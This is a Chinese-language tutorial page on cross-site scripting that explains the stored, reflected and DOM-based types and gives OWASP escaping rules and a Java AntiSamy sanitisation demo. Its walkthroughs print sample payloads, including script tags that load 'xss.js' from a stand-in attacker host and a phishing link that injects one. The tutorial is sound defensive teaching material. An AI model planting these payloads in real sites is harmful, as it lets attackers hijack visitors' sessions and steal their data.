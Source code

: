 

# 跨站脚本攻击(XSS - Cross Site Scripting)

## 工具参考

* Acunetix_Web_Vulnerability_Scanner_V9
* arachni-0.4.2-0.4
* Pangolin_jb51.rar

## 原理
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

## 分类

<table>
  <tr>
    <th></th>
    <th colspan="3">风险代码存在于？</th>
  </tr>
  <tr>
    <th></th>
    <th>数据库中</th>
    <th>HTTP响应中</th>
    <th>浏览器构建的DOM中</th>
  </tr>
  <tr>
    <td>Stored XSS Attacks</td>
    <td>Yes</td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>Reflected XSS Attacks</td>
    <td></td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>DOM Based XSS</td>
    <td></td>
    <td></td>
    <td>Yes</td>
  </tr>
</table>



===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet XSS Prevention Cheat Sheet]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API


== OWASP AntiSamy 使用示例 ==
pom.xml
```xml
  <dependency>
    <groupId>org.owasp.antisamy</groupId>
    <artifactId>antisamy</artifactId>
    <version>1.5.2</version>
  </dependency>
</source>
```

AntiSamyDemo.java
```java
import java.io.IOException;
import java.io.InputStream;

import org.owasp.validator.html.AntiSamy;
import org.owasp.validator.html.CleanResults;
import org.owasp.validator.html.Policy;
import org.owasp.validator.html.PolicyException;
import org.owasp.validator.html.ScanException;

public class AntiSamyDemo {

    public static void main(String[] args) throws PolicyException, IOException, ScanException {

        InputStream prolicyIn = AntiSamyDemo.class.getResourceAsStream("antisamy-ebay-1.4.4.xml");
        Policy policy = Policy.getInstance(prolicyIn);
        AntiSamy as = new AntiSamy();
        String drityInput = "<script>alert(1)</script>"
                + "<a href='#bb' style='z-index:999; width:100%;' onclick='xxx'>aa</a>"
                + "<iframe src='javascript:xxx'></iframe>"
                + "<xxx>xxx</xxx>";

        // 输出： <a href="#bb" style="width: 100.0%;">aa</a> xxx
        CleanResults cr = as.scan(drityInput, policy, AntiSamy.SAX);
        String cleanResult = cr.getCleanHTML();
        System.out.println(cleanResult);
    }
}
```


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)
